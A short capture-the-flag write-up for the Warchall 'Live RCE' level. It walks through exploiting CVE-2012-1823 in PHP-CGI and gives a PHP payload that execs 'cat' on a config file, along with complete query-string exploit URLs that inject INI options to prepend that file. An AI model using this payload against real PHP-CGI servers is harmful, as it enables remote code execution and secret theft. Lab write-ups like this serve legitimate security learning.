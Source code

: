 ## Level 20 - Warchall: Live RCE (Remote Code Execution)

This challenge involves exploiting a specific vulnerability, namely CVE-2012-1823 (PHP-CGI Remote Code Execution).

### Vulnerability Overview

The vulnerability allows an attacker to execute arbitrary code through PHP-CGI by manipulating the parameters passed to it. Specifically, appending parameters like `?-s` to the URL simulates PHP-CGI parameters such as `/usr/bin/php53-cgi/php-cgi -f index.php -s`.

### Initial Analysis

-  Explore the PHP-CGI options using `php-cgi --help`.
-  Recognize that the target script (`index.php`) includes another file (`config.php`) using the statement `require '../config.php';`.
-  Identify the absolute paths of the files: `/home/level/20_live_rce/www/index.php` and `/home/level/20_live_rce/config.php`.

### Exploitation Steps
-  Use PHP-CGI parameters to define INI entries:
    
    -   `-dallow_url_include=On`: Allows including remote files.
    -   `-dauto_prepend_file=/tmp/2.php`: Specifies a file to include before processing the requested file.
-  Create `/tmp/2.php` with the following content:
```php
<?php
exec("cat /home/level/20_live_rce/config.php", $out);
print_r($out);
?>
```
- Access the target script with the manipulated parameters:
>http://rce.warchall.net/?-dallow_url_include=On+-dauto_prepend_file=/tmp/2.php+-n
- Access the target script with the manipulated parameters and encoded url:
>http://rce.warchall.net/?-dallow_url_include%3DOn+-dauto_prepend_file%3D%2ftmp%2f2.php+-n
- Inspect the source code
